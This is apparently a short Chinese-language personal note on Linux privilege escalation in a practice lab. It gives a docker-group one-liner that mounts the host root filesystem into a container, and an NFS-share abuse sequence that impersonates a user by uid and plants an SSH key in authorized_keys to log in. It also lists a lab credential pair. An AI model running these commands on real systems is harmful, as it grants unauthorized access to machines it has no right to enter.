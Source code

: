 ```yaml
---
title: linux提权-msf提权插件编写中
categories:
- linux
tags:
- linux
---
```

linux提权-msf提权插件编写中

bob / secret

### docker组提权

```
docker run -v /:/linsecurity -i -t chrisfosterelli/rootplease
```
### nsf提权
```
查看并挂载目录
showmount -e 192.168.1.140
mount 192.168.1.140:/home/peter /mnt/peter

查看权限
ls -la /mnt/peter
touch this-wont-work

添加用户组和用户
groupadd --gid 1005 peter
useradd --uid 1001 --gid 1005 peter
su peter
pwd
touch this-will-work
ls -la

生成私钥
ssh-keygen
mkdir .ssh
ls -la /home/peter/.ssh
cat /home/peter/.ssh/id_rsa.pub > .ssh/authorized_keys

获得普通用户权限
ssh peter@192.168.1.140
whoami;id
```
### 参考资料
- https://s1gh.sh/lin-security/

- https://book.hacktricks.xyz/pentesting-methodology


